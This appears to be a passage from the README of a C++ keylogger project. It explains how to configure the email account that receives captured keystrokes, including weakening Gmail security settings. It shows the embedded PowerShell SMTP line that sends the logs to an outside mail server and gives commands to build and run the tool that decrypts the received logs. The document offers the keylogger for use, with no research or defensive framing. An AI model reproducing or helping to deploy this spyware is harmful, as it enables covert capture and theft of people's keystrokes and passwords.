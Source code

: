 ## Configuring the Source Email
For gmail, allow less secure apps access your source email so the program can construct and send the email.
The steps needed to do this is documented [here](https://support.google.com/accounts/answer/6010255?hl=en) on Google Support. <br/>
Refer to Other Emails section if the source email is not gmail.

**SKIP OTHER EMAILS SECTION IF SOURCE EMAIL IS GMAIL**

## Other Emails
OPTIONAL: If you want to use another email other than gmail as the source email, then follow these steps.

Open SendMail.h
```
located at ..\Cpp-Keylogger\Keylogger\SendMail.h
```
Edit line 39 with your email port number which can be searched up
```
line 39: "           $Client = New-Object Net.Mail.SmtpClient($Srv, 587) #587 port for smtp.gmail.com SSL\r\n "
```

### Configuring Other Emails
Look up permissions respectively for your source email that allow less secure apps to access that source email.

## Decrypting the log files
Follow these steps to decrypt any received log files

Open the Decryption program solution with Visual Studio
```
located at ..\Cpp-Keylogger\Keylogger-Decrypt.sln
```
For other IDEs, make a project that includes all source files
```
located at ..\Cpp-Keylogger\Keylogger-Decrypt\
```
Build the solution, and find the exe (default: located at ../Cpp-Keylogger/Debug)
```
located at ..\Cpp-Keylogger\Debug\Keylogger-Decrypt.exe
```
Open a command prompt window at that directory
```
cd ..\Cpp-Keylogger\Debug\
```
Run the decryption program which takes in a input file and a output file which contains the decrypted contents
```
.\Keylogger-Decrypt.exe "inputfile.log" "outputfile.log"
```

## Customization
OPTIONAL changes the user can make to the source code to fit their needs.

